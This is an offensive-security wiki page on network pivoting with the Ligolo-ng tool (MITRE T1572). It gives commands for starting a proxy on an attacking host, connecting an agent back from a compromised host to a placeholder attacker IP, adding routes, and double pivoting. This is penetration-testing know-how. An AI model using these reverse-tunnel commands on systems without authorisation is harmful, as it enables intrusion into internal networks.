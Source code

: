 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# TLS Tunneling (Ligolo-ng)

## Theory

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) (Golang) is a network pivoting tool that allows us to establish tunnels from a **reverse TCP/TLS** connection using a **tun interface** (without the need of SOCKS).&#x20;

It utilizes a local proxy server and remote agents to make process tunneling from remote hosts simple and easy to manage. It has features other tools lack, such as building a network interface in the system userland that does not require elevated privileges to establish and **encrypt VPN tunneling**.&#x20;

{% hint style="info" %}
Using ligolo-ng, we can perform SYN scan or send ICMP packets trought the created interface. (in contrast with SOCKS pivoting techniques like with [Chisel](portfwd.md#chisel) or [SSH](portfwd.md#ssh-tunneling)).
{% endhint %}

## Practice

{% tabs %}
{% tab title="Using Ligolo-ng" %}
{% hint style="info" %}
Before using it, you should first [Setup Ligolo-ng](tls-tunneling-ligolo-ng.md#setup).
{% endhint %}

First, start the proxy server on the Attacking Host or Jump Box:

```bash
# Use in self-signed mode
# if -laddr is not specified, default is 0.0.0.0:11601 
./proxy -selfcert -laddr 0.0.0.0:<LISTENING_SVR_PORT>

# Use a custom certificate
./proxy -certfile <cert.pem> -keyfile <key.pem>
```

On the compromised host, after uploading the agent, we use the following command:

```bash
# Connect if server is in self-signed mode
./agent -connect <LIGOLO_SVR_IP>:<LISTENING_SVR_PORT> -ignore-cert

# Connect
./agent -connect <LIGOLO_SERVER_IP>:<SRV_LISTENING_PORT>
```

When the agent connect back to the server, we must enumerate its network as follow:

```bash
# Choose the agent
ligolo-ng » session

# Enumerate network
[Agent : pwned@target] » ifconfig
[...]
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:86:dd:bd              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.10.10.63/24                 │
└──────────────┴────────────────────────────────┘
```

Take note of interesting agent interfaces that may be use for pivoting, and add the route on the proxy/relay server. In this example we'll do as follow

```bash
# Linux
$ sudo ip route add 10.10.10.0/24 dev ligolo

# Windows
> netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo
   
> route add 10.10.10.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

Finally, start the tunnel on the ligolo proxy server:

```bash
[Agent : pwned@target] » start
```

Done ! We can now access the `10.10.10.0/24` agent network from the proxy server.
{% endtab %}

{% tab title="Setup" %}
[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) fisrt need to be configured. We need to create a tun interface on the Proxy Server (Attacking Host, or Jumb Box):

```bash
# Linux
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up

# Windows
# You need to download the Wintun driver and place the "wintun.dll" in the same folder as Ligolo (make sure you use the right architecture).
# https://www.wintun.net/
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
To perform **double pivoting** with ligolo-ng, we can add a listener on any agent. For example, if Agent2 only has access to Agent1 and we want to proxy its traffic.

We must add a listener on Agent1 from Ligolo Server:

```bash
# Where 11601 is the Ligolo LISTENING_SVR_PORT
# And 172.16.5.15:4455 the Agent1 listening IP and Port
[Agent : pwned@Agent1] » listener_add –addr 172.16.5.15:4455 –to 127.0.0.1:11601
```

Then, we can join Agent2 as follow

```powershell
# Where 172.16.5.15:4455 is the Agent1 listening IP and Port
.\agent.exe -connect 172.16.5.15:4455 [-ignore-cert]
```
{% endhint %}

## Resources

{% embed url="https://github.com/nicocha30/ligolo-ng/tree/v0.4.4#building--usage" %}
